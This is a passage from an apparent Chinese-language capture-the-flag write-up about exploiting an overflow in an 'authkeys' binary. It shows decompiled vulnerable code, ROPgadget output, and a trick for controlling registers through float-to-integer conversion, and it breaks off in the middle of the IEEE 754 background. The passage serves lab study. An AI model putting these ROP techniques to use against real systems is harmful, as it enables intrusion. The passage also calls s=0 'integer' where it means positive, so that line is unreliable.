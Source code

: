 ```
    `}`
    ++v6;
  `}`
  v12 = (unsigned __int64)&amp;v7[-v8];
  if ( (unsigned __int64)&amp;v7[-v8] &gt;= 0x300 )
    v12 = 768LL;
  qmemcpy(&amp;unk_6010C0, &amp;v14, v12); // stack overflow
  return 0LL;
`}`
```

程序对传入的公钥进行base64decode，写入stack中，然后判断解码后的长度，若超长0x300大小则重设长度为0x300，然后解码后的公钥前0x300字节复制到0x6010c0（bss段）。那么思路很明确了，控制第四个参数（base64的公钥），溢出后进行ROP。

由于程序太小，直接搜索常规gadget，发现几乎没有！64位rop需要控制rdi，rsi，rdx的gadget。这里是本box第二个难点。

```
$ ROPgadget --binary ./authkeys --only "pop|ret"
Gadgets information
============================================================
0x000000000040036a : pop rdx ; ret
0x000000000040028a : ret

Unique gadgets found: 2
```

使用`ROPgadget --binary ./authkeys --all`可以列出所有gadget，我们先解决控制rdi，rsi，rdx的问题，首先把涉及到这三个寄存器的gadget提取出来。

```
0x0000000000400380: cvtss2si esi, xmm0; ret;
0x000000000040037b: movss xmm0, dword ptr [rdx]; mov ebx, 0xf02d0ff3; ret;
0x000000000040037c: movups xmm0, xmmword ptr [rdx]; mov ebx, 0xf02d0ff3; ret;
0x0000000000400367: mov rdi, rsi; pop rdx; ret;
0x0000000000400368: mov edi, esi ; pop rdx ; ret
0x000000000040036a: pop rdx; ret;
```

看似没有可以直接控制rdi和rsi的gadget，这里使用一个非常巧妙的方法，通过向xmm0传入一个单精度浮点数，然后在把浮点数转成整数传入esi，然后用`mov rdi, rsi`间接控制rdi。浮点数的二进制表示是一个特殊的存在，需要先了解一下。

浮点数的表示方法:

国际标准IEEE 754规定，任意一个二进制浮点数V都可以表示成下列形式：

[![](https://p4.ssl.qhimg.com/t0167de1a6aad0a077e.png)](https://p4.ssl.qhimg.com/t0167de1a6aad0a077e.png)
- (-1)^s 表示符号位，当s=0，V为整数；s=1，V为负数；
- M 表示有效数字，1≤M&lt;2；
- 2^E 表示指数位
> <p>32位的单精度浮点数，最高1位是符号位s，接着的8位是指数E，剩下的23位是有效数字M<br>
64位的双精度浮点数，最高1位是符号位s，接着的11位是指数E，剩下的52位为有效数字M</p>

那么单精度浮点数最大的有效数字为：

```
&gt;&gt;&gt; hex(int(0b11111111111111111111111))
'0x7fffff'
```
